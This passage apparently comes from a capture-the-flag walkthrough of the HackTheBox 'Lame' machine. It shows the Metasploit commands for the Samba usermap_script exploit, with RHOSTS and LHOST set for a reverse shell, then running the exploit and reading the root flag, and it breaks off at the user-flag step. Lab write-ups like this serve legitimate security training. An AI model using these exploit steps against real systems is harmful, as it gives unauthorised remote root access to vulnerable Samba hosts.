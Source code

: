 {{< image src="../../../lame-machine/1.png" alt="metasploit" position="center" style="border-radius: 8px;" >}}

---

**Select and configure the exploit:**

~~~bash
msfconsole> use exploit/multi/samba/usermap_script
msfconsole> set RHOSTS 10.129.79.228
msfconsole> set LHOST [Your IP]
~~~

{{< image src="../../../lame-machine/2.png" alt="metasploit" position="center" style="border-radius: 8px;" >}}

Here, we're setting up the exploit with our target IP (RHOSTS) and our own IP (LHOST) for the reverse shell connection.

---
Run the exploit:

~~~bash
msfconsole> run
~~~

{{< image src="../../../lame-machine/3.png" alt="metasploit" position="center" style="border-radius: 8px;" >}}

---

### 4. Post-Exploitation

Once we have access to the system, our goal is to find and extract valuable information, such as flags in a CTF scenario.

**Obtaining Root Flag**

Navigate to root directory:

~~~bash
cd root
~~~

{{< image src="../../../lame-machine/4.png" alt="reverse-shell" position="center" style="border-radius: 8px;" >}}

---

**Cat the root flag:**

~~~bash
cat root.txt
~~~

---

**Obtaining User Flag**

*Identify users:*
